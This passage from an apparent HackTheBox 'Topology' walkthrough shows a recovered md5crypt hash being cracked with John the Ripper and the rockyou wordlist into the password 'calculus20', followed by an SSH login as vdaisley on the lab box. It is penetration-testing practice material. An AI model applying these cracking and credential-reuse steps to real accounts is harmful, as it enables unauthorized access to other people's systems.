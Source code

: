 ![hash](/images/topology_hash.png)

> We got a hash for user `vdaisley`!
{: .prompt-info }

Lets crack this hash.
```bash
$ cat dev.hash 
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

$ john dev.hash --wordlist=/usr/share/wordlists/rockyou.txt              
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 ASIMD 4x2])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:02 1.62% (ETA: 22:53:17) 0g/s 135514p/s 135514c/s 135514C/s gloria06..gian23
calculus20       (?)     
1g 0:00:00:07 DONE (2023-06-29 22:51) 0.1366g/s 136008p/s 136008c/s 136008C/s calibabe14..calasag
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

> Yes we cracked the password! `vdaisley:calculus20`
{: .prompt-info }

Lets check if we can login using the hash.
```bash
$ ssh vdaisley@topology.htb
vdaisley@topology.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Jun 30 08:22:11 2023 from 10.10.14.18
-bash-5.0$ id
uid=1007(vdaisley) gid=1007(vdaisley) groups=1007(vdaisley)
```

---